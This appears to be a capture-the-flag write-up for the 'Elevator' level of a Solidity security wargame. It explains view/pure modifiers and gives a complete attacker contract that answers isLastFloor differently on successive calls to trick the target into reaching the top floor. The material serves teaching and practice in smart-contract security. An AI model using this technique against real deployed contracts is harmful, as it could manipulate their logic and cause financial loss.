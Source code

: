 # Level 11 - Elevator

- You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.
- An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
- I have created a contract with specified function and let contract call that function. Normally, this wouldn’t be a problem if pure or view is used. Because that way I wouldn’t be able to give different results in same transaction.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract ElevatorAttacker {
    bool entered = false;
    address target = 0x7a611241B681187a240798bc25a7d24d20Dfd7B8;

    function isLastFloor(uint256 _floor) external returns (bool s) {
        if(entered) {
            return true;
        }
        else {
            entered = true;
        }
    }

    function attack() public {
        IElevator(target).goTo(1);
    }
}
```